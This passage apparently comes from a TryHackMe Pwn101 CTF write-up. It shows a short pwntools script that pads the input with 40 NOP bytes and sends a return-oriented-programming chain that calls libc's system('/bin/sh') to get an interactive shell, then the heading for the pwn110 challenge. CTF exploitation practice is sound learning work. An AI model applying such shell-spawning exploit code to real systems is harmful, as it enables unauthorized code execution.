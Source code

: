 ```python
rop.system(next(libc.search(b'/bin/sh')), 0, 0)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
io.recvline()
io.sendline(b'\x90'*40 + rop.chain())

io.clean()
io.interactive()
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2053.png)

## Challenge 10 - pwn110

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2054.png)
